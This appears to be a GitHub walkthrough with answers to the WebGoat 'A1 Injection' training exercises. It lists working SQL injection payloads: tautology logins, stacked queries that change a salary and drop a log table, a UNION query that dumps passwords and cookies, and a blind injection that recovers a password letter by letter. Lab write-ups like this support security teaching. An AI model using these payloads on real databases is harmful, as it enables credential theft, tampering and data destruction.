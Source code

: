 # A1 Injection

This page will tell you how to get set up these excercises and the right answers to complete them. The following results are achieved while working on Kali Linux 2021.3 installed using [this guide](https://github.com/tonikerttula/APE/blob/main/Kali.md) and WebGoat 8.0.0.M26 installed using [this guide.](https://github.com/tonikerttula/APE/blob/main/webgoat.md)

All exercises are working without problems, if installation guides were followed properly. Ahead will be the guide how to complete the exercises, so try yourself first before looking!

Another great place for practicing SQL Injection is in SQL ZOO! (https://sqlzoo.net/wiki/SQL_Tutorial) 


### Intro

2. __SQL query:__ SELECT department FROM employees WHERE first_name='Bob'
3. __SQL query:__ UPDATE employees SET department='Sales' WHERE first_name='Tobi'
4. __SQL query:__ ALTER TABLE employees ADD phone varchar(20)
5. __SQL query:__ GRANT ALTER TABLE TO UnauthorizedUser


9. __SELECT * FROM users_data FIRST_NAME = 'John' and Last_NAME = '__ ' + or + '1'='1
10. __Login_count:__ 0    __User_Id:__ 0  __OR__  1=1
11. __Employee Name:__ A    __Authentication TAN:__ ' __OR__ '1' = '1
12. __Employee Name:__ A    __Authentication TAN:__ '; UPDATE employees SET salary=99999 WHERE first_name='John
13. __Action contains:__ %'; DROP TABLE access_log;--


### Advanced

3. __Name:__ '; SELECT * FROM user_system_data;-- __OR__ ' UNION SELECT 1, user_name, password, cookie, 'A', 'B', 1 from user_system_data;--

5.  Login page doesn't provide any useful outputs, but the Register page allows to check if a username already exists. Trying to register with the username __tom' AND '1'='1__ we find that the username is taken. We guess that the table we are seeking is named "password", and registering with the username __tom' AND substring(password,1,1)='t__ we find that the username is already taken. That means that Tom's password starts with the letter "t". By guessing forward one letter at a time, we find that Tom's password is __thisisasecretfortomonly__. 

### Mitigation
Tested excersises 5 and 6, they are working without problems. I couldn't solve excercise 10 yet, so I haven't tested it.
